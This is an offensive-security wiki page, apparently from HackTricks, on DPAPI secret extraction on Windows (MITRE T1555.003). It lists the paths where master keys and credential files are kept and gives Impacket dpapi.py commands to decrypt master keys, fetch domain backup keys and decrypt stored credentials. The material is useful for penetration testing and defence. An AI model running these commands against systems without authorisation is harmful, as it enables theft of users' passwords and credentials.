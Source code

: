 <details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

##
##

---
description: MITRE ATT&CK™ Sub-technique T1555.003
---

# DPAPI secrets

## Theory

The DPAPI (Data Protection API) is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords). The data are stored in the users directory and are secured by user-specific master keys derived from the users password. They are usually located at:

```bash
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```

Application like Google Chrome, Outlook, Internet Explorer, Skype use the DPAPI. Windows also uses that API for sensitive information like Wi-Fi passwords, certificates, RDP connection passwords, and many more.

Below are common paths of hidden files that usually contain DPAPI-protected data.

```bash
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, DPAPI-data can be manipulated (mainly offline) with tools like [dpapick](https://github.com/jordanbtucker/dpapick) (Python), [dpapilab](https://github.com/dfirfpi/dpapilab) (Python), [Impacket](https://github.com/SecureAuthCorp/impacket)'s [dpapi.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/dpapi.py) and [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python).

```bash
# (not tested) Decrypt a master key
dpapi.py masterkey -file "/path/to/masterkey_file" -sid $USER_SID -password $MASTERKEY_PASSWORD

# (not tested) Obtain the backup keys & use it to decrypt a master key
dpapi.py backupkeys -t $DOMAIN/$USER:$PASSWORD@$TARGET
dpapi.py masterkey -file "/path/to/masterkey_file" -pvk "/path/to/backup_key.pvk"

# (not tested) Decrypt DPAPI-protected data using a master key
dpapi.py credential -file "/path/to/protected_file" -key $MASTERKEY
```
